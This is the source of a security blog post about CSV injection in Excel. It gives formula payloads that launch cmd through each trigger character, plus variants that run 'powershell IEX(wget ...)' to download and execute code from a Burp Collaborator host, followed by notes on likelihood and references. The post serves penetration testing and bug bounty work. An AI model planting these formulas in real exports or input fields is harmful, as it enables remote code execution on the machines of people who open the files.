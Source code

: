 ```yaml
---
layout: post
title:  "CSV Injection"
description: ""
date:   2016-12-03 18:04:58 +0100
categories: [CSV, Attack vectors, Test files, Mental notes]
---
```


### Introduction

CSV injection is the technique to leverage the fact that Excel executes the formulas embedded in a [CSV][wiki-csv]. The technique has been [covered][contextis] by [plenty][securelayer7] of [others][zsec-dangers-mitigation], and even used successfully in [bug][hackerone-hackerone] [bounties][zsec-pornhub], so I will not repeat myself.

### Test files

The following is the simplest test file for testing all the vulnerable characters:

```
=cmd|' /C echo = && pause'!A0,CSV injection
@SUM(1+1)*cmd|' /C echo @ && pause'!A0,CSV injection
+2+3+cmd|' /C echo + && pause'!A0,CSV injection
-2+3+cmd|' /C echo - && pause'!A0,CSV injection
```

Pro tip, use Burp collaborator manual client with a combination of PowerShell and wget to verify if the payload gets executed on the server:

```
=cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
@SUM(1+1)*cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
+2+3+cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
-2+3+cmd|' /C powershell IEX(wget <uniqueid>.collabserver.com)'!A0,CSV injection
```

### Likelihood

As always, this requires that the eight planets is aligned to work. First of, the injection has to be echoed in the CSV file unencoded, and then the victim has to download the file and open it in Excel. Excel gives the user multiple warning messages before the code gets executed, and of course the success heavily relies on the payload being executed.

[//]: ### Impact

[//]: ### Remediation

### References
* [Wikipedia: CSV][wiki-csv]
* [Context: Comma Separated Vulnerabilities][contextis]
* [OWASP: CSV Excel Macro Injection][owasp]
* [SecureLayer7: Everything about the CSV Excel Macro Injection][securelayer7]
* [ZeroSec: CSV Injection Revisited - Making Things More Dangerous(and fun)][zsec-dangers-mitigation]
* [ZeroSec: CSV Injection -> Meterpreter on Pornhub][zsec-pornhub]
* [hackeone: CSV Injection with the CVS export feature][hackerone-hackerone]

[wiki-csv]: https://en.wikipedia.org/wiki/Comma-separated_values
[owasp]: https://www.owasp.org/index.php/CSV_Excel_Macro_Injection
[contextis]: https://www.contextis.com/resources/blog/comma-separated-vulnerabilities/
[zsec-dangers-mitigation]: http://blog.zsec.uk/csv-dangers-mitigations/
[zsec-pornhub]: http://blog.zsec.uk/csvhub/
[hackerone-hackerone]: https://hackerone.com/reports/72785
[hackerone-pornhub]: https://hackerone.com/reports/146593
[xpnsec]: https://xpnsec.tumblr.com/post/133298850231/from-csv-to-meterpreter
[securelayer7]: http://blog.securelayer7.net/how-to-perform-csv-excel-macro-injection/
